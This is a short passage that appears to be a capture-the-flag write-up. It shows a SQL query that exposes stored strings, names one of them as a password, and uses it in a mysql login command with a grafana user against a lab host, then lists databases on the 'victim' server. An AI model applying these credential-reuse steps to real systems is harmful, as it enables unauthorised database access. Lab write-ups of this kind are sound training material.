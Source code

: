 ```
SELECT * FROM data_source;
```

```
1. dontStandSoCloseToMe63221!     <- Correct one
2. uKewFgM4z
```

![](./IMG/21.png)

> Use the 2 stings to login, ya!! the first one is password.

```
mysql -h 10.10.11.183 -u grafana -pdontStandSoCloseToMe63221!
```

![](./IMG/22.png)

> Query Tables in victim Mysql server 
> Find Database List

```
show databases;
```

![](./IMG/23.png)
